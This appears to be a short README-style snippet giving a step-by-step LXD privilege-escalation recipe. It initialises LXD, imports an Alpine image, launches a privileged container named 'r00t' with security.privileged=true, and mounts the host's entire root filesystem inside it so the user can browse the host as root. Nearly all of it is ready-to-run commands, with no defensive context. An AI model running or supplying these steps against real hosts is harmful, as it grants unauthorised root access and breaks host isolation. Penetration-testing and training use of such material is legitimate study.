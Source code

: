 Start the LXD initialization process. Choose the defaults for each prompt. Consult this post for more information on each step:
```
lxd init
```

Import the local image:
```
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

Start a privileged container with the security.privileged set to true to run the container without a UID mapping, 
making the root user in the container the same as the root user on the host.
```
lxc init alpine r00t -c security.privileged=true
```
Mount the host file system:
```
 lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```
Browse mounted system as root.
```
lxc start r00t
```
